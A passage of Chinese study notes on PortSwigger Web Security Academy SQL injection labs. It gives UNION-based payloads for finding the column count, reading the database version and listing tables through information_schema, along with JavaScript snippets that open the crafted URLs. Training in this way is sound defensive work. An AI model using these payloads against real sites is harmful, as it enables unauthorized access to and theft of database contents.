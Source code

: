實際訪問的 querystring

```
?category=Lifestyle'%20UNION%20SELECT%20NULL%23
?category=Lifestyle'%20UNION%20SELECT%20NULL%2CNULL%23
```

確認 columns 是兩個後，改成以下 Payload

```
# 轉換前
?category=Lifestyle' UNION SELECT @@version,NULL#

# 轉換後
?category=Lifestyle'%20UNION%20SELECT%20%40%40version%2CNULL%23
```

SQL

```sql
SELECT ... FROM products WHERE category = 'Lifestyle' UNION SELECT @@version,NULL#'
```

## Lab: SQL injection attack, listing the database contents on non-Oracle databases

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/sql-injection/examining-the-database#listing-the-contents-of-the-database     |
| Lab       | https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle |

根據 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet#comments)，最終得出需使用 `-- ` 的格式來當作註解，嘗試用 `UNION SELECT NULL` 慢慢猜出 `SELECT` 的 columns 數量

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Gifts' UNION SELECT NULL FROM information_schema.tables-- ",
);
const href = url.href;
window.open(href, "_blank");
```

列出所有 tables，尋找 `users` 關鍵字，找到 table_name 是 `users_fdytnd`

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Gifts' UNION SELECT table_name,NULL FROM information_schema.tables-- ",
);
const href = url.href;
window.open(href, "_blank");
```
